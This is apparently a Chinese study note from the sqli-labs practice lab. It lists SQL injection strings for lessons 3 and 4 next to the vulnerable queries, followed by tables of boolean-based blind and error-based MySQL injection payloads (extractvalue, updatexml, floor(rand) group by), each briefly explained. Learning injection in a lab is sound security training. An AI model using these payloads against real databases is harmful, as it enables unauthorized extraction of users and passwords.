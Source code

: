 
# Less3

推测sql语句为：`select login_name,select password from table where id = (‘our input here’)`

| 注入语句                 | 数据库语句                                               |
| ------------------------ | -------------------------------------------------------- |
| ?id=1')   or '1'='1' --+ | $sql="SELECT *  FROM users WHERE id = ('$id') LIMIT0,1"; |
| ?id=1')   or '1'=('1     | $sql="SELECT *  FROM users WHERE id = ('$id') LIMIT0,1"; |

 

# Less4

| 注入语句             | 数据库语句                                               |
| -------------------- | -------------------------------------------------------- |
| ?id=1")   or 1=1 --+ | $sql="SELECT *  FROM users WHERE id = ("$id") LIMIT0,1"; |



# 盲注

## 1：基于布尔 SQL 盲注----------构造逻辑判断

| left(database(),1)>’s’                                       | left()函数                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| ascii(substr((select   table_name information_schema.tables where tables_schema =database()limit   0,1),1,1))=101 --+ | substr()函数，ascii()函数                                    |
| ascii(substr((select   database()),1,1))=98                  | substr(a,b,c)从   b 位置开始，截取字符串 a 的 c 长度。Ascii()将某个字符转换 为   ascii 值 |
| ORD(MID((SELECT   IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT   0,1),1,1))>98%23 | mid(a,b,c)从位置   b 开始，截取 a 字符串的 c 位   Ord()函数同   ascii()，将字符转为 ascii 值 |
| select   user() regexp '^[a-z]';                             | user()结果为   root，regexp 为匹配 root 的正则表达式。       |
| select   user() like ‘ro%                                    | like   匹配注入                                              |

## 2：基于报错的 SQL 盲注------构造 payload 让信息通过错误提示回显出来

| Select   1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a   from information_schema.columns group by a; | explain:此处有三个点，一是需要   concat 计数，二是 floor，取得 0 or 1，进行数据的 重复，三是 group by 进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时 重复造成的错误。也有解释为 mysql 的 bug 的问题。但是此处需要将   rand(0)，rand()需 要多试几次才行 |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| select   count(*) from information_schema.tables group by concat(version(),   floor(rand(0)*2)) | 以上语句可以简化成如下的形式                                 |
| select   count(*) from (select 1 union select null union   select   !1) group by concat(version(),floor(rand(0)*2)) | 如果关键的表被禁用了，可以使用这种形式                       |
| select   min(@a:=1) from information_schema.tables group by concat(passwo   rd,@a:=(@a+1)%2) | 如果   rand 被禁用了可以使用用户变量来报错                   |
| select   exp(~(select * FROM(SELECT USER())a))               | double   数值类 型超出范围                                   |
| extractvalue(1,concat(0x7e,(select   @@version),0x7e)) se    | mysql   对 xml 数据进 行查询和修改的 xpath 函数，xpath 语法错误 |
| updatexml(1,concat(0x7e,(select   @@version),0x7e),1)        | mysql对xml数据进行   查询和修改的 xpath 函数，xpath 语法错误 |
| ▲select   * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x; | mysql   重复特性，此处重复了 version，所以报错。             |

